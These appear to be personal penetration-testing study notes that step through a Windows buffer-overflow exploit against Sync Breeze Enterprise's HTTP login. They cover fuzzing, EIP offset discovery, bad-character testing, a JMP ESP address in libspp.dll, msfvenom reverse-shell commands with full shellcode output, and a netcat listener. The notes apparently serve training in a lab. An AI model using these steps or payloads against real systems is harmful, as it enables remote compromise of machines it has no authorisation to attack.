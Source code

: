 ```yaml
---
title: Study Notes - 2021/03/17
date: 2021-03-16 22:56:46
tags: [Penetration Testing, Study Notes]
---
```


# Buffer Overflow
# Immunity Debug
F2 set break point  
F9 to run the program  
F7 step into the function  
Ctrl + F9 execute until the return of the function  


# Windows Buffer Overflows
## Discover the vulnerability 
1. source code review
2. reverse engineering 
3. fuzzing  

# Fuzzing the http protocal
## get seed
use wireshark to capture packages  
capture filter `host 192.168.119.148 and host 192.168.148.10`  
locate the /login page and right click `follow tcp stream`  -- apply display filters  


TCP View Stored at: `C:\Tools\windows_buffer_overflows`  find the process listening on port 80  
Run Immunity Debug with admin  

## Replicate the crash
## Control EIP
### Binary Search
AAAABBBB, then AAAABBCC then AAAABBCD until locate the eip  

generate non-repeat pattern  
`msf-pattern_create -l 800`  

eip replaced with `42306142`  -> `B0aB`  
```
└─$ msf-pattern_offset -l 800 -q 42306142                                                                          
[*] Exact match at offset 780
``` 

## Locating space for shell code  
usually shell code length 350 - 400 bytes  
esp locate at BBBBCCCCESP!  

```
filler = "A" * 780
eip = "B" * 4
offset = "C" * 4
buffer = "D" * (1500 - len(filler) - len(eip) - len(offset))
inputBuffer = filler + eip + offset + buffer
```  
esp point to buffer  

## checking for bad chars
`0x00`  use to terminate string  

```
badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )

inputBuffer = filler + eip + offset + badchars
```

right click esp, follow in dump: find that char after 0x09 not appear  means 0x0a is a bad char (line feed, terminate the http field)  

remove 0x0a from the barchar and repeat, find 0x0d (return char) is also bad  
all bad char `0x00, 0x0A, 0x0D, 0x25, 0x26, 0x2B 0x3D`   

## redirecting the execution flow
the address differ from crash to crash  
## find return address  
JMP ESP  
the addresses used in the library must be static, eliminates libraries compiled with ASLR support 
the **address** can not contain any bar char  

use !mona modules
```
Log data, item 7
 Address=0BADF00D
 Message= 0x00400000 | 0x00462000 | 0x00062000 | False  | False   | False |  False   | False  | -1.0- [syncbrs.exe] (C:\Program Files\Sync Breeze Enterprise\bin\syncbrs.exe)
```
however the address leading with `0x00`  
```
Log data, item 10
 Address=0BADF00D
 Message= 0x10000000 | 0x10223000 | 0x00223000 | False  | False   | False |  False   | False  | -1.0- [libspp.dll] (C:\Program Files\Sync Breeze Enterprise\bin\libspp.dll)
```
tip: If this application was compiled with DEP support, our JMP ESP
address would have to be located in the .text code segment of the module  

```
kali@kali:~$ msf-nasm_shell
nasm > jmp esp
00000000 FFE4 jmp esp
nasm >
```
`!mona find -s "\xff\xe4" -m "libspp.dll"`  

```
Log data, item 3
 Address=10090C83
 Message=  0x10090c83 : "\xff\xe4" |  {PAGE_EXECUTE_READ} [libspp.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Sync Breeze Enterprise\bin\libspp.dll)
```

JMP ESP instruction (0x10090c83)  
eip = "\x83\x0c\x09\x10"  


## generate shell code with metasploit  
`msfvenom -l payloads`  list available playload  
`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.148 LPORT=443 -f c`  
-p payload  
-f to select C-formatted shellcode.  
```
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.148 LPORT=443 -f c                                     
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of c file: 1386 bytes
unsigned char buf[] = 
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
"\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
"\x29\x80\x6b\x00\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68"
"\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x05\x68\xc0\xa8\x77\x94\x68"
"\x02\x00\x01\xbb\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
"\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2"
"\x56\xff\xd5\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6"
"\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01\x01\x8d\x44"
"\x24\x10\xc6\x00\x44\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56"
"\x53\x56\x68\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff"
"\x30\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6"
"\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
"\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5";
```
include bad chars  

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.148 LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```

-b bad char  
-e encoder  

the decoder (getPC routine) in the shell code modify the stack thus modify the decoder code it self.  

create landing path, add many nops (\x90) 

```
nops = "\x90" * 10
inputBuffer = filler + eip + offset + nops + shellcode
```

```
sudo nc -lnvp 443  
```

Yeah!!  

But when we exit the shell, the sync breeze crash and exit  


## improving the exploit  
Using ExitThread instead of ExitProcess
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.148 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```
